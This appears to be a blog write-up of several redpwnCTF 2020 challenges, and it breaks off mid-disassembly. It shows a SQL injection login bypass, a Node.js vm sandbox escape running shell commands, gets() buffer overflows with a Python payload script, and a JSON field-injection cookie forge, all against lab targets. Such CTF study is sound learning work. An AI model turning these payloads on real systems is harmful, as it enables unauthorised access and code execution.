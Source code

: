 ```yaml
---
layout: writeup
title: redpwnCTF
date: 2020-07-20
---
```

## redpwnCTF
{: .no_toc}
<span class="desc">{{ page.date | date: "%Y-%m-%d" }}</span>

A couple friends and I worked on the [redpwnCTF](https://2020.redpwn.net/), an event that spanned four days and had a greater variety of subjects and difficulty than the [previous one]({% link _writeups/hackasat.md %}). We solved 24 of the 60 challenges and finished within the top 8% of all teams. The event organizers generously [posted](https://github.com/redpwn/redpwnctf-2020-challenges) the challenges afterwards; I'll only detail the solves I heavily contributed to.

* TOC
{:toc}

### `web/`inspector-general

> My friend made a new webpage, can you [find a flag?](https://redpwn.net/)

This one was simple: I opened the link and went to the page source in my browser. The `<head>` section held the flag:
```html
<!DOCTYPE html>
<html lang="en-us">
  <head>
    <meta name="generator" content="Hugo 0.72.0" />
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <meta name="redpwnctf2020" content="flag{1nspector_g3n3ral_at_w0rk}">
```

### `rev/`ropes

> It's not just a string, it's a rope!  
> [<span class="file-link">ropes</span>](https://github.com/redpwn/redpwnctf-2020-challenges/blob/master/rev/ropes/bin/ropes)

We were given a binary file `ropes`, which looked like gibberish when opened in a text editor. Binary files are often compiled programs you can run, so I ran `./ropes` and got the following prompt:

```bash
$ ./ropes
Give me a magic number: 
```

I entered some random inputs (`1`, `hi`, `42`, `aaa`, `64`, ...) but the program exited each time I entered one. From what I learned in the systems classes I took at Cal, it was often worthwhile to step through a program using a debugger or disassemble a function to get insight about its behavior. I decided to run `lldb` (which is similar to `gdb`):

```bash
$ lldb ropes
(lldb) target create "ropes"
Current executable set to 'ropes' (x86_64).
```

In C programs, `main` is usually the entry function. I tried setting a breakpoint there so that I could disassemble its frame. Thankfully that worked, confirming this was a C program, so I ran it:

```bash
(lldb) b main
Breakpoint 1: where = ropes`main, address = 0x0000000100000eb0
(lldb) r
Process 67875 launched: '~/ropes' (x86_64)
Process 67875 stopped
* thread #1: tid = 0x21b534, 0x0000000100000eb0 ropes`main, stop reason = breakpoint 1.1
    frame #0: 0x0000000100000eb0 ropes`main
ropes`main:
->  0x100000eb0 <+0>: pushq  %rbp
    0x100000eb1 <+1>: movq   %rsp, %rbp
    0x100000eb4 <+4>: subq   $0x20, %rsp
    0x100000eb8 <+8>: movl   $0x0, -0x4(%rbp)
```

At the breakpoint, I ran the `disassemble` command and saw the flag in the debug symbols!
```bash
(lldb) disas
ropes`main:
->  0x100000eb0 <+0>:   pushq  %rbp
    0x100000eb1 <+1>:   movq   %rsp, %rbp
    0x100000eb4 <+4>:   subq   $0x20, %rsp
    0x100000eb8 <+8>:   movl   $0x0, -0x4(%rbp)
    0x100000ebf <+15>:  leaq   0x94(%rip), %rdi          ; "Give me a magic number: "
    0x100000ec6 <+22>:  movb   $0x0, %al
    0x100000ec8 <+24>:  callq  0x100000f1a               ; symbol stub for: printf
    0x100000ecd <+29>:  leaq   0x9f(%rip), %rdi          ; "%d"
    0x100000ed4 <+36>:  leaq   -0x8(%rbp), %rsi
    0x100000ed8 <+40>:  movl   %eax, -0xc(%rbp)
    0x100000edb <+43>:  movb   $0x0, %al
    0x100000edd <+45>:  callq  0x100000f26               ; symbol stub for: scanf
    0x100000ee2 <+50>:  cmpl   $0x1337, -0x8(%rbp)       ; imm = 0x1337
    0x100000ee9 <+57>:  movl   %eax, -0x10(%rbp)
    0x100000eec <+60>:  jne    0x100000f10               ; <+96>
    0x100000ef2 <+66>:  leaq   0x7d(%rip), %rdi          ; "First part is: flag{r0pes_ar3_"
    0x100000ef9 <+73>:  callq  0x100000f20               ; symbol stub for: puts
    0x100000efe <+78>:  leaq   0x90(%rip), %rdi          ; "Second part is: just_l0ng_str1ngs}"
    0x100000f05 <+85>:  movl   %eax, -0x14(%rbp)
    0x100000f08 <+88>:  callq  0x100000f20               ; symbol stub for: puts
    0x100000f0d <+93>:  movl   %eax, -0x18(%rbp)
    0x100000f10 <+96>:  movl   -0x4(%rbp), %eax
    0x100000f13 <+99>:  addq   $0x20, %rsp
    0x100000f17 <+103>: popq   %rbp
    0x100000f18 <+104>: retq
```

### `crypto/`base646464

> Encoding something multiple times makes it exponentially more secure!  
> [<span class="file-link">cipher.txt</span>](https://github.com/redpwn/redpwnctf-2020-challenges/blob/master/crypto/base646464/bin/cipher.txt) [<span class="file-link">generate.js</span>](https://github.com/redpwn/redpwnctf-2020-challenges/blob/master/crypto/base646464/bin/generate.js)

I started with the `generate.js` file. The source code seemed to read a `flag.txt` file's contents, encode them as a [base64](https://en.wikipedia.org/wiki/Base64) string 25 times, then write the resulting encoding to a `cipher.txt` file. Sure enough, the provided `cipher.txt` file had a long string that seemed to be base64-encoded. Fortunately, base64 strings can be decoded, so I wrote some Python to decode the ciphertext (reverse the 25 encodings) and got the flag:

```python
from base64 import b64decode
with open("cipher.txt", "r") as f:
    ciphertext = f.read()
    for _ in range(25):
        ciphertext = b64decode(ciphertext)
    print(ciphertext)

>>> flag{l00ks_l1ke_a_l0t_of_64s}
```

### `web/`login

> I made a cool login page. I bet you can't get in!  
> Site: [login.2020.redpwnc.tf](https://login.2020.redpwnc.tf/)  
> [<span class="file-link">index.js</span>](https://github.com/redpwn/redpwnctf-2020-challenges/blob/master/web/login/index.js)

The website presented a simple login form:
<center><img src="/img/redpwn/login1.png" width="30%" title="The login page"></center>

I tried logging in as `admin:admin` and other random `username:password` combinations, but was denied access.
<center><img src="/img/redpwn/login2.png" width="30%" title="Incorrect password"></center>

The `index.js` source code seemed to be the backend of the web app. When a user submitted a username and password, their request was posted to the `/api/flag` endpoint, which sent back either a failure JSON with an error message or a success JSON with the flag.

The web app used a SQLite database to store usernames and passwords in a `users` table. The table was initialized with a single record with values sourced from environment variables I didn't have access to.

```js
// init database
db.prepare(`CREATE TABLE IF NOT EXISTS users (
    id INTEGER PRIMARY KEY AUTOINCREMENT,
    username TEXT,
    password TEXT);`).run();

db.prepare(`INSERT INTO 
    users (username, password)
    VALUES ('${process.env.USERNAME}', '${process.env.PASSWORD}');`).run();
```

When someone submitted a username and password through the form, the `/api/flag` endpoint ran a SQL query to find any users in the database that had a matching username and password. If that `result` was empty, it meant no matching `username:password` combinations were found in the database and the API would return a failure JSON. If `result` was non-empty, the system would deem the request a success and return a JSON containing the flag.

```js
result = db.prepare(`SELECT * FROM users 
            WHERE username = '${username}'
            AND password = '${password}';`).get();
```

This was a classic vulnerability for a [SQL injection](https://en.wikipedia.org/wiki/SQL_injection). The `username` and `password` form inputs were not sanitized anywhere, so I could input malicious strings to alter the SQL query being run. I set both of my form inputs to be `' OR ''='`. This would make it so that the SQL query would evaluate to:

```
SELECT * FROM users 
WHERE username = '' OR ''=''
    AND password = '' OR ''='';
```

My malicious inputs would cause both `WHERE` clauses to evaluate to `TRUE`, meaning the query would return all the users in the table. The SQL injection worked and I got the flag:

<center><img src="/img/redpwn/login3.png" width="30%" title="Obtained the flag"></center>

### `misc/`CaaSiNO

> Who needs regex for sanitization when we have VMs?!?!  
> The flag is at /ctf/flag.txt  
> `nc 2020.redpwnc.tf 31273`  
> [<span class="file-link">calculator.js</span>](https://github.com/redpwn/redpwnctf-2020-challenges/blob/master/misc/caasino/run/calculator.js)

The challenge program presented a console where I could submit Javascript math commands. The console displayed an error when I submitted a non-JavaScript command.

```
$ nc 2020.redpwnc.tf 31273
Welcome to my Calculator-as-a-Service (CaaS)!
This calculator lets you use the full power of Javascript for
your computations! Try `Math.log(Math.expm1(5) + 1)`
Type q to exit.
> Math.log(1)
0
> cat /ctf/flag.txt
An error occurred.
```

The `calculator.js` source code showed that my input would be run through a `vm.runInNewContext` function and the console would display the error when the `vm.runInNewContext` function raised an exception. I googled "vm runinnewcontext exploit" and [this link](https://pwnisher.gitlab.io/nodejs/sandbox/2019/02/21/sandboxing-nodejs-is-hard.html) was the second search result. The blog post described how the author exploited the same Node.js function to bypass the VM module and execute code in the main process.

I copied the snippet in the "Code Execution" section and changed the `cat /etc/passwd/` command to `cat /ctf/flag.txt` as per the the challenge prompt. Submitting this modified snippet to the challenge program printed the flag.

```
$ nc 2020.redpwnc.tf 31273
Welcome to my Calculator-as-a-Service (CaaS)!
This calculator lets you use the full power of Javascript for
your computations! Try `Math.log(Math.expm1(5) + 1)`
Type q to exit.
> const process = this.constructor.constructor('return this.process')(); process.mainModule.require('child_process').execSync('cat /ctf/flag.txt').toString()
flag{vm_1snt_s4f3_4ft3r_41l_29ka5sqD}
``` 

### `pwn/`coffer-overflow-0

> Can you fill up the coffers? We even managed to find the source for you.  
> `nc 2020.redpwnc.tf 31199`  
> [<span class="file-link">coffer-overflow-0</span>](https://github.com/redpwn/redpwnctf-2020-challenges/blob/master/pwn/coffer-overflow-0/bin/coffer-overflow-0) [<span class="file-link">coffer-overflow-0.c</span>](https://github.com/redpwn/redpwnctf-2020-challenges/blob/master/pwn/coffer-overflow-0/bin/coffer-overflow-0.c)

I connected to the challenge and entered several inputs of varying lengths and characters, but the challenge disconnected each time.

```
$ nc 2020.redpwnc.tf 31199
Welcome to coffer overflow, where our coffers are overfilling with bytes ;)
What do you want to fill your coffer with?
> AAA
$ 
```

Next, I checked out the source code `coffer-overflow-0.c`. Ignoring the `setbuf` and `puts` functions since they'd be unaffected by my input, the source code looked like:

```c
#include <stdio.h>
#include <string.h>

int main(void)
{
  long code = 0;
  char name[16];
  
  // ...truncated...

  gets(name);

  if(code != 0) {
    system("/bin/sh");
  }
}
```

I read that the [`gets` function](https://linux.die.net/man/3/gets) in C reads a full line from `stdin` (user input), regardless of the input size. This is dangerous to use since it can lead to a [buffer overflow](https://en.wikipedia.org/wiki/Buffer_overflow), which the title of the challenge alluded to, so I identified the `gets` call as the program's vulnerability.

The `name` array was initialized to hold 16 bytes. If I supplied more than 16 bytes as input to the program, `gets` would copy the first 16 input bytes into `name`, then overwrite the memory allocated for `code` with the remainder of the input bytes. This happens because `code` and `name` are local variables adjacent to each other in memory (on the stack). There's a [Wikipedia example](https://en.wikipedia.org/wiki/Buffer_overflow#Technical_description) that illustrates this concept well.

The `system("/bin/sh/")` command would give me shell access to navigate the challenge program's filesystem. To run this command, I needed to get the `code` value to be anything other than zero. The `long` data type in C takes up 8 bytes, so I intended to submit 16 bytes (to fill the `name` buffer) + 8 bytes (to overwrite `code`) = 24 bytes of input to overwrite the `code` variable's value in memory.

I submitted 24 As (`AAAAAAAAAAAAAAAAAAAAAAAA`) as input but the program still ended. After some reading, I learned that I was incorrect in assuming that `name` and `code` would be exactly adjacent to each other in memory. Stack space was generally allocated in multiples of 16 bytes, and it wasn't guaranteed that stack variables would be adjacent to each other in memory if the stack variables used less space than the total allocated stack space. For my case, the stack variables only used 24 bytes of memory, but the stack likely had 32 bytes of memory allocated. In the worst case, the variables would live at opposite ends of the allocated memory, meaning the stack would be laid out as (16 bytes `name` + 8 bytes free stack space + 8 bytes `code`). In order to overwrite `code`, I needed to write 16 bytes (to fill the `name` buffer) + 8 bytes (to fill the free stack space) + at least one byte to make `code` non-zero.

I submitted 25 As (`AAAAAAAAAAAAAAAAAAAAAAAAA`) as input and the program didn't exit. Instead, I got a newline, meaning the `/bin/sh/` command ran and I had access to the filesystem and the flag.

```
$ nc 2020.redpwnc.tf 31199
Welcome to coffer overflow, where our coffers are overfilling with bytes ;)
What do you want to fill your coffer with?
> AAAAAAAAAAAAAAAAAAAAAAAAA

> ls
Makefile
bin
coffer-overflow-0
coffer-overflow-0.c
dev
flag.txt
lib
lib32
lib64

> cat flag.txt
flag{b0ffer_0verf10w_3asy_as_123}
```

### `web/`panda-facts

> I just found a hate group targeting my favorite animal. Can you try and find their secrets? We gotta take them down!  
> Site: [panda-facts.2020.redpwnc.tf](https://panda-facts.2020.redpwnc.tf/pandas/)  
> [<span class="file-link">index.js</span>](https://github.com/redpwn/redpwnctf-2020-challenges/blob/master/web/panda-facts/index.js)

This website also presented a simple login form, this time without a password field:

<center><img src="/img/redpwn/panda1_1.png" width="30%" title="panda-facts login page"></center>

I logged in as `asdf` and was directed to a page listing several "facts" about pandas:

<center><img src="/img/redpwn/panda1_2.png" width="70%" title="Logged in to panda-facts"></center>

When I clicked the button to view the "member-only fact" (which I assumed was the flag), I got an alert saying I wasn't a member.

<center><img src="/img/redpwn/panda1_3.png" width="70%" title="Not a member"></center>

My goal was to attain member status in order to view the flag. I noticed a `token` cookie was set each time I logged in; the cookie's value looked like a base64-encoded string and changed slightly whenever I logged in with a different username. The cookie's value was deterministic per username, meaning if I logged in with the same username twice, the same `token` value would be set for both logins.

```js
// Login as asdf
> document.cookie
"token=UK4cRIQoC6CqgCXpQeQIyU6V0PL6UZ+P/XEROuEd2XqqG77e6Op7ittY2dy0oUppbiLf1hBSSiyq+aWAViCIoUH0ECQfV9JLSvMlW/c0q8M="
// Clear cookies, login as asdf2
> document.cookie
"token=UK4cRIQoC6CqgCXpQeQIyU6V0PL6UZ+P/XEROuEd2XqqG77e6Op7ittY2dy0oUppbiLf1hBSSiyq+aWAViCIoROQabygI/LsO0f/Xz4QpLE="
// Clear cookies, login again as asdf2
> document.cookie
token="UK4cRIQoC6CqgCXpQeQIyU6V0PL6UZ+P/XEROuEd2XqqG77e6Op7ittY2dy0oUppbiLf1hBSSiyq+aWAViCIoROQabygI/LsO0f/Xz4QpLE="
```

The `index.js` source code showed that the website (a Node.js web app), computed the `token` as a base64-encoding of an AES-192-CBC encryption of a JSON payload string. The website decrypted `token` to a JSON object by following the steps used to generate `token` in reverse. I also noticed an `INTEGRITY` constant in the source code which reminded me of [magic strings](https://en.wikipedia.org/wiki/Magic_string) and [canary values](https://en.wikipedia.org/wiki/Buffer_overflow_protection#Canaries).

```js
const INTEGRITY = '12370cc0f387730fb3f273e4d46a94e5';

// ...truncated...

async function generateToken(username) {
    const algorithm = 'aes-192-cbc'; 
    const key = Buffer.from(process.env.KEY, 'hex'); 
    // Predictable IV doesn't matter here
    const iv = Buffer.alloc(16, 0);

    const cipher = crypto.createCipheriv(algorithm, key, iv);

    const token = `{"integrity":"${INTEGRITY}","member":0,"username":"${username}"}`

    let encrypted = '';
    encrypted += cipher.update(token, 'utf8', 'base64');
    encrypted += cipher.final('base64');
    return encrypted;
}

async function decodeToken(encrypted) {
    const algorithm = 'aes-192-cbc'; 
    const key = Buffer.from(process.env.KEY, 'hex'); 
    // Predictable IV doesn't matter here
    const iv = Buffer.alloc(16, 0);
    const decipher = crypto.createDecipheriv(algorithm, key, iv);

    let decrypted = '';

    try {
        decrypted += decipher.update(encrypted, 'base64', 'utf8');
        decrypted += decipher.final('utf8');
    } catch (error) {
        return false;
    }

    let res;
    try {
        res = JSON.parse(decrypted);
    } catch (error) {
        console.log(error);
        return false;
    }

    if (res.integrity !== INTEGRITY) {
        return false;
    }

    return res;
}
```

There was plenty to unpack here, so I started with [AES](https://en.wikipedia.org/wiki/Advanced_Encryption_Standard), which is an encryption standard. The employed algorithm was AES-192-CBC: it encrypted and decrypted messages using a key that was 192 bits (24 bytes) long and used a [cipher block chaining (CBC)](https://en.wikipedia.org/wiki/Block_cipher_mode_of_operation#Cipher_block_chaining_(CBC)) mode of operation. The initialization vector (IV) was given as a buffer of 16 zeros, indicating that each block of data in the algorithm was comprised of 16 bytes. The data being encrypted was a JSON string containing the `integrity` value, a `member` key set to 0, and the `username` I provided when I logged in. For instance when I logged in as `asdf`, the JSON string would be split into five blocks of 16 bytes:

```python
# Plaintext blocks
{"integrity":"12
370cc0f387730fb3
f273e4d46a94e5",
"member":0,"user
name":"asdf"}
```

These five plaintext blocks were encrypted through the algorithm to yield five ciphertext blocks (represented in hex values, so each block is still 16 bytes). Note that although the fifth plaintext block was less than 16 bytes long, the corresponding fifth ciphertext block still turned out to be 16 bytes long due to padding in the algorithm. Concatenating and encoding these five ciphertext blocks as a base64 string gave the `token` value:

```python
# Ciphertext blocks
'50ae1c4484280ba0aa8025e941e408c9'
'4e95d0f2fa519f8ffd71113ae11dd97a'
'aa1bbedee8ea7b8adb58d9dcb4a14a69'
'6e22dfd610524a2caaf9a580562088a1'
'41f410241f57d24b4af3255bf734abc3'

# base64 encoding
"UK4cRIQoC6CqgCXpQeQIyU6V0PL6UZ+P/XEROuEd2XqqG77e6Op7ittY2dy0oUppbiLf1hBSSiyq+aWAViCIoUH0ECQfV9JLSvMlW/c0q8M="
```

To decode `token`, the server base64-decoded the cookie value and decrypted the ciphertext blocks using the 192-bit key. The resulting string was parsed as a JSON object, and if parsing was successful, the system checked if the JSON's `integrity` value matched the `INTEGRITY` constant in the source code. When a user clicked the "member-only fact" button, the server directed the request to the `/api/flag` endpoint, which checked whether the decoded `token`'s `member` value was truthy or not. In my case, my plaintext always contained `"member":0` (falsy value) since I only had the ability to input a `username` value for the JSON string; I wanted a way to set `member` to a truthy value in my decoded `token`.

The 192-bit key was sourced from the server's environment variables and I wasn't confident I could access it in an attempt to break the encryption. Bruteforcing the key would take $$2^{192}$$ combination attempts and was computationally infeasible. Since I only needed to change one value in the JSON, I figured there was a AES-CBC exploit that would let me alter a specific byte to change the 0 into a 1. This idea led me down a rabbit hole where I learned about [padding oracle attacks](https://en.wikipedia.org/wiki/Padding_oracle_attack) and [bit flipping attacks](https://crypto.stackexchange.com/questions/66085/bit-flipping-attack-on-cbc-mode), though after several failed implementations of these exploits, I decided they were far too arduous for this challenge and that I was probably overlooking something.

A few hours later, I was reexamining the source code when I noticed that the `username` form input was never sanitized, similar to the form inputs in the [`web/`login](#weblogin) challenge. This spawned an idea that I could add an extra `member` key-value pair to the JSON string in order to overwrite the `"member":0` pairing. I knew that when constructing a dictionary with duplicate keys in Python, only the latest appearing value would appear for that key; the same went for the `json` module in Python:

```python
>>> {"a":0, "a":1}
{'a': 1}
>>> import json
>>> json.loads('{"a":0, "a":1}')
{'a': 1}
```

I figured if the same logic applied in JavaScript JSON, then I could close the `username` value and add a truthy `member` key-value pairing to overwrite the preexisting falsy one. If I submitted my username as `asdf","member":"1`, then my plaintext JSON string would look like:

```python
{"integrity":"12370cc0f387730fb3f273e4d46a94e5","member":0,"username":"asdf","member":"1"}
```

Sure enough, submitting `asdf","member":"1` as my username worked and I could see the flag!

<center><img src="/img/redpwn/panda1_4.png" width="70%" title="panda-facts flag"></center>

### `pwn/`coffer-overflow-1

> The coffers keep getting stronger! You'll need to use the source, Luke.  
> `nc 2020.redpwnc.tf 31255`  
> [<span class="file-link">coffer-overflow-1</span>](https://github.com/redpwn/redpwnctf-2020-challenges/blob/master/pwn/coffer-overflow-1/bin/coffer-overflow-1) [<span class="file-link">coffer-overflow-1.c</span>](https://github.com/redpwn/redpwnctf-2020-challenges/blob/master/pwn/coffer-overflow-1/bin/coffer-overflow-1.c)

Similar to [`pwn/`coffer-overflow-0](#pwncoffer-overflow-0), I connected to the server and entered various inputs (and the 25 `A`s again) but the challenge disconnected each time:

```
$ nc 2020.redpwnc.tf 31255
Welcome to coffer overflow, where our coffers are overfilling with bytes ;)
What do you want to fill your coffer with?
> AAAAAAAAAAAAAAAAAAAAAAAAA
$
```

The `coffer-overflow-1.c` source code was very similar to the previous iteration's. Again ignoring the `setbuf` and `puts` functions since they'd be unaffected by my input, it looked like:

```c
#include <stdio.h>
#include <string.h>

int main(void)
{
  long code = 0;
  char name[16];
  
  // ...truncated...

  gets(name);

  if(code == 0xcafebabe) {
    system("/bin/sh");
  }
}
```

I believed this challenge's exploit was similar to the previous one's where I caused a buffer overflow through the `gets` function. This time however, I needed to ensure that `code` was overwritten to hold the hex value `0xCAFEBABE` instead of random garbage `A`s in order to access the shell.

With the same reasoning as before, I intended to submit 16 bytes (to fill the `name` buffer) + 8 bytes (to fill the extra stack space out of 32 allocated bytes) + the four `0xCAFEBABE` bytes (to overwrite `code`) + four `0` bytes to fill out the rest of the `long` data type = 32 bytes of input. The `code` bytes needed to be written in reverse order because of endianness and I needed to programmatically connect to the challenge in order to send raw bytes:

```python
import nclib

nc = nclib.Netcat(('2020.redpwnc.tf', 31255))
print(nc.recv_line())
print(nc.recv_line())

payload = bytes("A"*24, 'utf8') + b'\xbe\xba\xfe\xca' + b'\x00\x00\x00\x00'
nc.send_line(payload)
command = b"cat flag.txt"
nc.send_line(command)
print(nc.recv_line())

>>> b'flag{th1s_0ne_wasnt_pure_gu3ssing_1_h0pe}\n'
```

### `rev/`bubbly

> It never ends  
> `nc 2020.redpwnc.tf 31039`  
> [<span class="file-link">bubbly</span>](https://github.com/redpwn/redpwnctf-2020-challenges/blob/master/rev/bubbly/bin/bubbly)

Upon connection, this challenge complained about a data structures class and sorting, then prompted me to enter input. When coupled with the "bubbly" challenge title, the complaint reminded me of [bubble sort](https://en.wikipedia.org/wiki/Bubble_sort). I found that text inputs were unwelcome (the program exited whenever I typed letters) but numbers seemed to work. After several sequences of input numbers, I learned that the program only accepted numbers in the range $$[0, 8]$$&mdash;decimals worked too.

```
$ nc 2020.redpwnc.tf 31039
I hate my data structures class! Why can't I just sort by hand?
> asdf
Try again!

$ nc 2020.redpwnc.tf 31039
I hate my data structures class! Why can't I just sort by hand?
> 1
> 2
> 3
> 4
> 5
> 10
Try again!

$ nc 2020.redpwnc.tf 31039
I hate my data structures class! Why can't I just sort by hand?
> 0
> 5
> 6
> 7
> 8
> 9
Try again!

$ nc 2020.redpwnc.tf 31039
I hate my data structures class! Why can't I just sort by hand?
> 1.5
> -1
Try again!
```

Unlike [`rev/`ropes](#revropes), I was unable to locally run the `bubbly` program. I decided to give `lldb` a shot in case it could give me clues about the behavior of the program.

```bash
$ lldb bubbly
(lldb) target create "bubbly"
Current executable set to 'bubbly' (x86_64).
(lldb) b main
Breakpoint 1: where = bubbly`main + 8 at main.c:30, address = 0x00000000000011e1
(lldb) r
error: failed to launch or debug process
```

The program didn't want to run in `lldb` either. Fortunately, I could still disassemble functions without running the program. I suspected the binary was compiled C code, which likely had a `main` function, so I started there:

```bash
(lldb) disas -n main
bubbly`main:
bubbly[0x11d9] <+0>:   pushq  %rbp
bubbly[0x11da] <+1>:   movq   %rsp, %rbp
bubbly[0x11dd] <+4>:   subq   $0x10, %rsp
bubbly[0x11e1] <+8>:   movq   0x2eb8(%rip), %rax        ; stdout@@GLIBC_2.2.5
bubbly[0x11e8] <+15>:  movl   $0x0, %esi
bubbly[0x11ed] <+20>:  movq   %rax, %rdi
bubbly[0x11f0] <+23>:  callq  0x1040                    ; symbol stub for: setbuf
bubbly[0x11f5] <+28>:  movq   0x2eb4(%rip), %rax        ; stdin@@GLIBC_2.2.5
bubbly[0x11fc] <+35>:  movl   $0x0, %esi
bubbly[0x1201] <+40>:  movq   %rax, %rdi
bubbly[0x1204] <+43>:  callq  0x1040                    ; symbol stub for: setbuf
bubbly[0x1209] <+48>:  movq   0x2eb0(%rip), %rax        ; stderr@@GLIBC_2.2.5
bubbly[0x1210] <+55>:  movl   $0x0, %esi
bubbly[0x1215] <+60>:  movq   %rax, %rdi
bubbly[0x1218] <+63>:  callq  0x1040                    ; symbol stub for: setbuf
bubbly[0x121d] <+68>:  leaq   0xdf4(%rip), %rdi
bubbly[0x1224] <+75>:  callq  0x1030                    ; symbol stub for: puts
bubbly[0x1229] <+80>:  movb   $0x0, -0x1(%rbp)
bubbly[0x122d] <+84>:  leaq   -0xc(%rbp), %rax
bubbly[0x1231] <+88>:  movq   %rax, %rsi
bubbly[0x1234] <+91>:  leaq   0xe1d(%rip), %rdi
bubbly[0x123b] <+98>:  movl   $0x0, %eax
bubbly[0x1240] <+103>: callq  0x1060                    ; symbol stub for: __isoc99_scanf
bubbly[0x1245] <+108>: movl   %eax, -0x8(%rbp)
bubbly[0x1248] <+111>: movl   -0xc(%rbp), %eax
bubbly[0x124b] <+114>: cmpl   $0x8, %eax
bubbly[0x124e] <+117>: ja     0x134d                    ; <+372> at main.c:40
bubbly[0x1254] <+123>: movl   -0xc(%rbp), %eax
bubbly[0x1257] <+126>: movl   %eax, %eax
bubbly[0x1259] <+128>: leaq   (,%rax,4), %rdx
bubbly[0x1261] <+136>: leaq   0x2df8(%rip), %rax        ; nums
bubbly[0x1268] <+143>: movl   (%rdx,%rax), %edx
bubbly[0x126b] <+146>: movl   -0xc(%rbp), %eax
bubbly[0x126e] <+149>: addl   $0x1, %eax
bubbly[0x1271] <+152>: movl   %eax, %eax
bubbly[0x1273] <+154>: leaq   (,%rax,4), %rcx
bubbly[0x127b] <+162>: leaq   0x2dde(%rip), %rax        ; nums
bubbly[0x1282] <+169>: movl   (%rcx,%rax), %eax
bubbly[0x1285] <+172>: movl   -0xc(%rbp), %esi
bubbly[0x1288] <+175>: movl   %edx, %ecx
bubbly[0x128a] <+177>: xorl   %eax, %ecx
bubbly[0x128c] <+179>: movl   %esi, %eax
bubbly[0x128e] <+181>: leaq   (,%rax,4), %rdx
bubbly[0x1296] <+189>: leaq   0x2dc3(%rip), %rax        ; nums
bubbly[0x129d] <+196>: movl   %ecx, (%rdx,%rax)
bubbly[0x12a0] <+199>: movl   -0xc(%rbp), %eax
bubbly[0x12a3] <+202>: addl   $0x1, %eax
bubbly[0x12a6] <+205>: movl   %eax, %eax
bubbly[0x12a8] <+207>: leaq   (,%rax,4), %rdx
bubbly[0x12b0] <+215>: leaq   0x2da9(%rip), %rax        ; nums
bubbly[0x12b7] <+222>: movl   (%rdx,%rax), %edx
bubbly[0x12ba] <+225>: movl   -0xc(%rbp), %eax
bubbly[0x12bd] <+228>: movl   %eax, %eax
bubbly[0x12bf] <+230>: leaq   (,%rax,4), %rcx
bubbly[0x12c7] <+238>: leaq   0x2d92(%rip), %rax        ; nums
bubbly[0x12ce] <+245>: movl   (%rcx,%rax), %eax
bubbly[0x12d1] <+248>: movl   -0xc(%rbp), %ecx
bubbly[0x12d4] <+251>: leal   0x1(%rcx), %esi
bubbly[0x12d7] <+254>: movl   %edx, %ecx
bubbly[0x12d9] <+256>: xorl   %eax, %ecx
bubbly[0x12db] <+258>: movl   %esi, %eax
bubbly[0x12dd] <+260>: leaq   (,%rax,4), %rdx
bubbly[0x12e5] <+268>: leaq   0x2d74(%rip), %rax        ; nums
bubbly[0x12ec] <+275>: movl   %ecx, (%rdx,%rax)
bubbly[0x12ef] <+278>: movl   -0xc(%rbp), %eax
bubbly[0x12f2] <+281>: movl   %eax, %eax
bubbly[0x12f4] <+283>: leaq   (,%rax,4), %rdx
bubbly[0x12fc] <+291>: leaq   0x2d5d(%rip), %rax        ; nums
bubbly[0x1303] <+298>: movl   (%rdx,%rax), %edx
bubbly[0x1306] <+301>: movl   -0xc(%rbp), %eax
bubbly[0x1309] <+304>: addl   $0x1, %eax
bubbly[0x130c] <+307>: movl   %eax, %eax
bubbly[0x130e] <+309>: leaq   (,%rax,4), %rcx
bubbly[0x1316] <+317>: leaq   0x2d43(%rip), %rax        ; nums
bubbly[0x131d] <+324>: movl   (%rcx,%rax), %eax
bubbly[0x1320] <+327>: movl   -0xc(%rbp), %esi
bubbly[0x1323] <+330>: xorl   %eax, %edx
bubbly[0x1325] <+332>: movl   %edx, %ecx
bubbly[0x1327] <+334>: movl   %esi, %eax
bubbly[0x1329] <+336>: leaq   (,%rax,4), %rdx
bubbly[0x1331] <+344>: leaq   0x2d28(%rip), %rax        ; nums
bubbly[0x1338] <+351>: movl   %ecx, (%rdx,%rax)
bubbly[0x133b] <+354>: movl   $0x0, %eax
bubbly[0x1340] <+359>: callq  0x1165                    ; check at main.c:9
bubbly[0x1345] <+364>: movb   %al, -0x1(%rbp)
bubbly[0x1348] <+367>: jmp    0x122d                    ; <+84> at main.c:38
bubbly[0x134d] <+372>: nop
bubbly[0x134e] <+373>: cmpb   $0x0, -0x1(%rbp)
bubbly[0x1352] <+377>: je     0x136c                    ; <+403> at main.c:56
bubbly[0x1354] <+379>: leaq   0xd00(%rip), %rdi
